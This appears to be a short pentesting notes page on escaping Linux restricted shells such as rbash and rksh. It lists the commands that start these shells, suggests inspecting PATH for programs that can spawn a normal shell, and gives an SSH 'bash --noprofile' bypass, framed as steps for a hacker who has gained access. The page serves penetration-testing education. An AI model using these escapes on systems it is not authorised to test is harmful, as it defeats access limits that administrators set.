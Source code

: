 # Escaping Restricted Shells

Some sysadmins don't want their users to have access to all commands, so they use a restricted shell. If the hacker get access to a user with a restriced shell, he needs to be able to break out of it.  Many linux distros include rshell, which is a restriced shell.

To access the restricted shell you can do this:

```
sh -r 
rsh

rbash
bash -r
bash --restricted

rksh
ksh -r
```

## Escaping

As a first step it's worth checking the PATH variable to see what you can and can't do.

```
echo $PATH
ls $PATH
```

There may be some programs within the path that let you spawn a regular shell.

If the box was gained via SSH access, it's worth seeing if the noprofile command works too:

```
ssh user@example.com 'bash --noprofile'
```

[http://securebean.blogspot.cl/2014/05/escaping-restricted-shell\_3.html?view=sidebar](http://securebean.blogspot.cl/2014/05/escaping-restricted-shell_3.html?view=sidebar)  
[http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells](http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells)

